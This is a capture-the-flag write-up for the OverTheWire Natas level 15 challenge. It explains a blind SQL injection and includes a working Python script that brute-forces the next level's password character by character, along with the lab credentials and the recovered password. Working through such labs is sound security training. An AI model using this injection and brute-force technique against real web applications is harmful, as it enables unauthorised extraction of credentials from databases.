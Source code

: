 [Category:OverTheWire-Natas](/Category:OverTheWire-Natas "wikilink")
Username: natas15 AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J URL:
<http://natas15.natas.labs.overthewire.org>

this is a challenge because we dont see any output but we can sql inject
it we first see if there is a user natas16 and there is so then we try
the query natas16" and password like "a%";-- this result in cant find it

we iterate over it until we have the right password case insensitive.
natas16" and password like "b%";-- natas16" and password like "c%";--

that would be

waiheacj63wnnibroheqi3p9t0m5nhmh

we then look up how to make it case sensitive then we see if w is valid
if not then at that place the char is W natas16" and password like
Binary "w%";--

we do this to speed up the brute force attack.

`  `
`import requests`
`  `
`# password = 'waiheacj63wnnibroheqi3p9t0m5nhmh'`
`  `
`# for i in range(32):`
`#     for char in "abcdefghijklmnopqrstuvwxyz0123456789":`
`#         querystring = 'natas16" and password like "{}%";-- '.format(password+str(char))`
`#         print(querystring)`
`#         r = requests.post('http://natas15.natas.labs.overthewire.org', auth=('natas15','AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'),data={'username':querystring})`
`#         if('This user exists' in r.text):`
`#             password += str(char)`
`#             print(password)`
`  `
`  `
`  `
`  `
`password = 'waiheacj63wnnibroheqi3p9t0m5nhmh'`
`  `
`for i in range(32):`
`    print(i)`
`    querystring = 'natas16" and password like Binary "{}%";-- '.format(password[:i+1])`
`    print(querystring)`
`    r = requests.post('http://natas15.natas.labs.overthewire.org', auth=('natas15','AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'),data={'username':querystring})`
`    if('This user doesn\'t exist' in r.text):`
`        x = list(password)`
`        x[i] = x[i].upper()`
`  `
`        password = "".join(x)`
`        print(password)`
`  `

result : WaIHEacj63wnNIBROHeqi3p9t0m5nhmh